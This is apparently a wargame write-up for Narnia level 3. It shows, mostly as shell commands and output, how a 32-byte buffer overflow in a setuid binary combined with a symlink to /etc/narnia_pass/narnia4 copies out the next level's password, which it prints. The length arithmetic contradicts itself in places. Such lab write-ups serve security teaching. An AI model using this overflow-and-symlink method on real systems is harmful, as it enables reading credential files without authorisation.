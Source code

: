 {% highlight bash %}
narnia3@narnia\:/tmp$ mkdir $(python -c "print 'S'*26")  
narnia3@narnia\:/tmp$ cd $(python -c "print 'S'*26")  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS$ touch test  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS$ chmod 777 test
{% endhighlight %}

Note that a directory of 26 S’s was created because /tmp/ is 5 characters and the / at the end of the S directory is one character (6 + 26 = 32 which is the size allocated for the buffer)

Executing the full path of the “test” file within this directory proves to successfully overwrite the null device variable\:

{% highlight bash %}
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSS$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS/test  
copied contents of /tmp/SSSSSSSSSSSSSSSSSSSSSSSSS/test to a safer place... (test)
{% endhighlight %}

It follows that if we create a /tmp directory within the current working directory and create a file that is symbolically linked to narnia4’s password file, we can copy his credentials to wherever we specify.

{% highlight bash %}
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials  
error opening tmp/credentials
{% endhighlight %}

This error was included to further help in understanding how the binary works

The error is missing a / at the beginning of the tmp directory. This is because /tmp/ is four characters, S is 26 characters, and the trailing / is one character (which completely fills the 32 bytes allocated for the buffer). Therefore, the string after the trailing / of the S directory is what overwrites the variable for the null device. Creating a directory with 27 S’s fixes this problem (note that the choice of S’s was arbitrary, and any sequence of 27 bytes within the /tmp directory would have worked)\:

{% highlight bash %}
narnia3@narnia\:/tmp$ mkdir $(python -c "print 'S'*27")  
narnia3@narnia\:/tmp$ cd $(python -c "print 'S'*27")  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS$ mkdir tmp  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS$ cd tmp  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ ln -s /etc/narnia_pass/narnia4 credentials  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials  
error opening /tmp/credentials  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ touch /tmp/credentials  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ chmod 777 /tmp/credentials  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials  
copied contents of /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials to a safer place... (/tmp/credentials)  
narnia3@narnia\:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ cat /tmp/credentials  
thaenohtai
{% endhighlight %}
